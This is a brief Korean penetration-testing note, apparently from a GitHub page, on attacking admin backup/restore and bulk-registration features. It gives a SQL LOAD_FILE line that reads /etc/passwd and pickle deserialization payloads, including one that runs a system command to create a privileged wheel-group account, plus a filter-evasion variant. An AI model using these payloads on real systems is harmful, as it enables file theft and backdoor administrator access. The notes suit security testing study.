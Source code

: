# Integrity Verification  
----------------------------------
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나
특정 설정을 백업/복구하는 기능이 있을 경우
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
